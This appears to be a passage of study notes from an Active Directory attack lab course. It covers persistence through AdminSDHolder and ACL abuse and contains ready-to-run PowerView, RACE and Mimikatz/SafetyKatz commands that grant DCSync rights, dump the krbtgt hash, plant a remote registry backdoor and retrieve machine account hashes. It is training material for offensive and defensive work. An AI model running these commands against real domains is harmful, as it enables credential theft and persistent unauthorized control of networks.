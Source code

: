 # **Persistence using ACLs - AdminSDHolder**
Resides in the System container of a domain an used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups). Security Descriptor propagator (SDPROP) runs every hour and compares the ACL of protected groups (DAs, EAs, DCs, Schema admins, Administrators, etc) and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL
Well known abuse of some of the Protected Groups - can log on locally to DC

| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups          |
| ----------------- | ----------------------------------------------------------------------------------- |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privilegeg group and Restore |
| Server Operators  | Run a command as system (using the disabled Browser service)                        |
| Print Operators   | Copy ntds.dit backup, load device drivers                                           |
# **Persistence using ACLs - Rights Abuse**
Only need the "Replicating Directory Changes" and "Replicating Directory Changes All" permission on the Domain to be able to run DCSync
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"`
- #### ***Add FullControl rights***
`Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentX -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`
- #### ***Using ActiveDirectory Module and RACE***
`Set-ADACL -SamAccountName studentuserx -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose`
- #### ***Add DCSync rights***
`Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentX -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`
- #### ***Using ActiveDirectory Module and RACE***
`Set-ADACL -SamAccountName studentuserx -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose`
- #### ***Execute DCSync***
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"`
# **Learning Objective 12**
[[Learning Objective 12]]
# **Persistence using ACLs - Security Descriptors**
It is possible to modify Security Descriptors (security information like Owner, primary group, DACL, SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. Admin privs are required. 
`. C:\AD\Tools\RACE.ps1` (load RACE toolkit)
Make studentx to be able to PSRemote
`Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc -Verbose`
Make studentx able to get machine account hashes
`Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee studentx -Verbose`
Retrieve machine account hashes to do Silver Attack
`Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose`
# **Learning Objective 13**
[[Learning Objective 13]]
# **Privilege Escalation - Kerberoast**